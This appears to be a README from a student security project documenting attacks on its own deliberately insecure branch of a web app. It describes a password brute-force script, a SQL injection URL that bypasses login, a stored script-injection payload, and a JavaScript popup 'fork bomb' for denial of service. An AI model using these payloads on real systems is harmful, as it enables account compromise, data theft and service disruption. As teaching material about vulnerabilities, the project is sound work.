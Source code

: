 ## Vulnerability Outline
**To exploit the vulnerabilities outlined below, utilize the secret-keeper-not-secure branch**

### Brute-Force Attack
**brutePass.sh**
* BrutePass takes advantage of the PUT login to test username and password combos
* Usernames are provided by the script user
* Passwords are taken from passwords.txt which has the 10000 top passwords

**Directions to use brutePass.sh:**
1. Place brutePass.sh and passwords.txt in the same directory
2. Open a connection to osu servers (do not use flip3, or the same server as the site is hosted if not flip3)
3. Open the directory with brutePass.sh
4. You may need to give yourself permission to run the script: chmod 777 brutePass.sh

**To use the script:** ./brutePass.sh -g username URL

**Examples:**
* ./brutePass.sh -g Kyle flip3.engr.oregonstate.edu:6061
* ./brutePass.sh -g Katie flip3.engr.oregonstate.edu:6061
* ./brutePass.sh -g Admin flip3.engr.oregonstate.edu:6061


### SQL Injection Attack
**HTML SQL Injection:**
* SQL code can be inserted into the URL as placeholders are not used for MySQL credential checks
* Use the following URL to access users' information without their credentials
* flip3.engr.oregonstate.edu:6061/user/'\*'%20OR%20ALL&'\*'%20OR%20ALL

### HTML Injection Attack
**To inject a script:**
1. Sign into any existing user account
2. Add a new record, using the following as the value for one field in the form: 
>"&amp;gt;<script>alert("Warning: This site is vulnerable to an attack")</script>
3. Note the popup alert warning of possible attack

### Distributed Denial of Service (DDoS) Attack
**Fork Bomb:**
1. Make sure that the broswer with the site open will not block popups
2. Add a new record, using the following as the value for the record name:
>"&amp;gt;<script>
function fork() {
  	const win = window.open("http://flip3.engr.oregonstate.edu:6061/user/Kyle&12345");
	setTimeout(fork(), 1);
}
fork(); </script>
3. Select the name of the record (the code) from the record table
NOTE: This does not bring down the school server (thankfully) rather it illustrates how to slow down a weak server
